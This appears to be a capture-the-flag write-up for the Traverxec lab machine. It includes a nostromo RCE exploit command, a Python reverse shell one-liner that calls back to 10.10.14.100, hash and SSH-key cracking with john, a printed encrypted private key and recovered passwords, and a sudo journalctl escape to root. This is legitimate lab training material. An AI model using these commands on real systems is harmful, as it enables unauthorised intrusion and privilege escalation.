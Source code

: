 # Traverxec
## nmap
```
$ nmap 10.10.10.165 --top-ports 1000 --open -sV
```
![](https://i.imgur.com/jVbDrIp.png)

## nostromo
I found the suspicious service nostromo and try to google it:

![](https://i.imgur.com/sCun1g9.png)

And use the exploit by python:
```
$ python cve2019_16278.py 10.10.10.165 80 id
```
![](https://i.imgur.com/ZzIScqH.png)

According to the result, we can find this exploit can help us remote execute command(RCE).
If RCE is allowed, then we can try the reverse shell.
> http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

```
$ python cve2019_16278.py 10.10.10.165 80 "python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.100\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"
```
Success get shell!

![](https://i.imgur.com/WaI0sjq.png)
## user
### road 1 (hole)
I have www-data permission, so I went into the nostromo folder.
In the "/var/nostromo/conf" we can found three file, in ".htpasswd" file I found user's hash password.
```
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
```
![](https://i.imgur.com/MZg9usp.png)

Try to crack with john tool:
```
$ john pass.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
![](https://i.imgur.com/pXIUHH4.png)

Successful password cracking! Try it with this account secret!
```
$ su david
> password: Nowonly4me
```
Unfortunaly I can't login with david account, that seens alreay unavilable.
### road 2
Turn back to other two file, check "nhttpd.conf".
At the end of the file:
```
# HOMEDIRS [OPTIONAL]
homedirs                           /home
homedirs_public                    public_www
```
I use the address into david's folder, and found some interesting.

![](https://i.imgur.com/p9GKxGe.png)
![](https://i.imgur.com/0hI79Ca.png)

"backup-sssh-identity-files.tgz" is a zip file, I don't have the permission to write file in /home/david so:
```
$ tar zxvf backup-ssh-identity-files.tgz -C /tmp
```
Change path to /tmp:

![](https://i.imgur.com/iqKfqba.png)

After unzip are three ssh keys:
- id_rsa
    - Contain Private key
- id_rsa.pub
    - Contain Public key.
- authorized_keys
    - Trust public key list

So we check the "id_rsa" file:
```
$ cat id_rsa

-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,477EEFFBA56F9D283D349033D5D08C4F

seyeH/feG19TlUaMdvHZK/2qfy8pwwdr9sg75x4hPpJJ8YauhWorCN4LPJV+wfCG
tuiBPfZy+ZPklLkOneIggoruLkVGW4k4651pwekZnjsT8IMM3jndLNSRkjxCTX3W
KzW9VFPujSQZnHM9Jho6J8O8LTzl+s6GjPpFxjo2Ar2nPwjofdQejPBeO7kXwDFU
RJUpcsAtpHAbXaJI9LFyX8IhQ8frTOOLuBMmuSEwhz9KVjw2kiLBLyKS+sUT9/V7
HHVHW47Y/EVFgrEXKu0OP8rFtYULQ+7k7nfb7fHIgKJ/6QYZe69r0AXEOtv44zIc
Y1OMGryQp5CVztcCHLyS/9GsRB0d0TtlqY2LXk+1nuYPyyZJhyngE7bP9jsp+hec
dTRqVqTnP7zI8GyKTV+KNgA0m7UWQNS+JgqvSQ9YDjZIwFlA8jxJP9HsuWWXT0ZN
6pmYZc/rNkCEl2l/oJbaJB3jP/1GWzo/q5JXA6jjyrd9xZDN5bX2E2gzdcCPd5qO
xwzna6js2kMdCxIRNVErnvSGBIBS0s/OnXpHnJTjMrkqgrPWCeLAf0xEPTgktqi1
Q2IMJqhW9LkUs48s+z72eAhl8naEfgn+fbQm5MMZ/x6BCuxSNWAFqnuj4RALjdn6
i27gesRkxxnSMZ5DmQXMrrIBuuLJ6gHgjruaCpdh5HuEHEfUFqnbJobJA3Nev54T
fzeAtR8rVJHlCuo5jmu6hitqGsjyHFJ/hSFYtbO5CmZR0hMWl1zVQ3CbNhjeIwFA
bzgSzzJdKYbGD9tyfK3z3RckVhgVDgEMFRB5HqC+yHDyRb+U5ka3LclgT1rO+2so
uDi6fXyvABX+e4E4lwJZoBtHk/NqMvDTeb9tdNOkVbTdFc2kWtz98VF9yoN82u8I
Ak/KOnp7lzHnR07dvdD61RzHkm37rvTYrUexaHJ458dHT36rfUxafe81v6l6RM8s
9CBrEp+LKAA2JrK5P20BrqFuPfWXvFtROLYepG9eHNFeN4uMsuT/55lbfn5S41/U
rGw0txYInVmeLR0RJO37b3/haSIrycak8LZzFSPUNuwqFcbxR8QJFqqLxhaMztua
4mOqrAeGFPP8DSgY3TCloRM0Hi/MzHPUIctxHV2RbYO/6TDHfz+Z26ntXPzuAgRU
/8Gzgw56EyHDaTgNtqYadXruYJ1iNDyArEAu+KvVZhYlYjhSLFfo2yRdOuGBm9AX
JPNeaxw0DX8UwGbAQyU0k49ePBFeEgQh9NEcYegCoHluaqpafxYx2c5MpY1nRg8+
XBzbLF9pcMxZiAWrs4bWUqAodXfEU6FZv7dsatTa9lwH04aj/5qxEbJuwuAuW5Lh
hORAZvbHuIxCzneqqRjS4tNRm0kF9uI5WkfK1eLMO3gXtVffO6vDD3mcTNL1pQuf
SP0GqvQ1diBixPMx+YkiimRggUwcGnd3lRBBQ2MNwWt59Rri3Z4Ai0pfb1K7TvOM
j1aQ4bQmVX8uBoqbPvW0/oQjkbCvfR4Xv6Q+cba/FnGNZxhHR8jcH80VaNS469tt
VeYniFU/TGnRKDYLQH2x0ni1tBf0wKOLERY0CbGDcquzRoWjAmTN/PV2VbEKKD/w
-----END RSA PRIVATE KEY-----
```
Before crack it, we need to convert the private key into a format that john tool can recognize.
```
$ /usr/share/john/ssh2john.py id_rsa > rsa.txt
```
Ok, then we can crack it by john.
```
$ john rsa.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
![](https://i.imgur.com/7CarqZ9.png)

Now we have a new password, try to use it to login with user david.
```
$ ssh -i id_rsa david@10.10.10.165
> password: hunter
```
Success get the user permission.
## root
In david's bin folder, I found a suspecious file:

![](https://i.imgur.com/9prKoXK.png)

The last line looks like a command, google to see what journalctl is.

![](https://i.imgur.com/ZEcHBhh.png)

The point is probably to shrink the window and run the bash command? Let's try it.
First, shrink the window and use the same command:
```
$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service \
```
And type bash command:
```
$ !/bin/sh
```
![](https://i.imgur.com/etsQFqg.png)

Here we have successfully obtained root.

![](https://i.imgur.com/kwd3sO7.png)
## problem
### ssh: unprotected private key file
![](https://i.imgur.com/R8OXKPW.png)
#### solution
```
$ cd ~/.ssh
$ chmod 700 id_rsa
```
